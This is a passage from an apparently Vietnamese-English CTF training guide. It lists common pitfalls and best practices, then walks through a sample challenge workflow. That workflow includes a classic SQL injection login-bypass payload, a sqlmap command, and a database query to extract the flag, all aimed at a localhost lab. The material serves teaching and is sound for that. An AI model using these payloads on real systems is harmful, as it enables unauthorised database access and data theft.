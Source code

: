 
### 9. COMMON PITFALLS & TIPS

#### ❌ Common Mistakes:
1. Không document findings
2. Skip reconnaissance phase
3. Không test manually trước khi dùng automated tools
4. Quên URL encode special characters
5. Không hiểu output của tools

#### ✅ Best Practices:
1. Follow methodology từng bước
2. Document mọi thứ
3. Verify findings manually
4. Use AI để explain, không phải thay thế thinking
5. Test trên nhiều browsers
6. Save all outputs và logs

---

### 10. SAMPLE WORKFLOW

**Complete Challenge 5 Example:**

```bash
# Step 1: Reconnaissance
curl -I http://localhost:8080/index.php?page=admin

# Step 2: Manual Testing
# Try: admin' OR '1'='1' --

# Step 3: AI Analysis
# Ask ChatGPT: "Explain why this payload works: admin' OR '1'='1' --"

# Step 4: Verify with sqlmap
sqlmap -u "http://localhost:8080/index.php?page=admin" \
       --data="username=admin&password=test" \
       --technique=E \
       --batch

# Step 5: Extract flag
mysql -h localhost -P 3306 -u ctf_user -p
> SELECT * FROM admin_panel;

# Step 6: Submit flag to CTF platform
# http://localhost:5000

# Step 7: Document in report
```

---

## 🎓 Grading Criteria (Đề xuất cho giảng viên)
